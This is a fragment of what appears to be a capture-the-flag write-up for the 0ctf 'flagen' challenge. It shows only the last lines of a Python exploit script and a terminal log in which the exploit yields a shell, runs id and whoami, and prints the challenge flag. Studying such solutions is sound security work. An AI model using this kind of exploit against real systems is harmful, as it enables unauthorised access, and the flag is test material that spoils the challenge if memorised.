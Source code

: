 ```python

    s.close()

pwn()
```


```
bas@tritonal:~/tmp/0ctf/flagen$ python ./exploit.py 

[+] enjoy your shell!
id
uid=1001(flagen) gid=1001(flagen) groups=1001(flagen)
whoami
flagen
cat /home/flagen/flag
0ctf{delicious_stack_cookie_generates_flag}
```

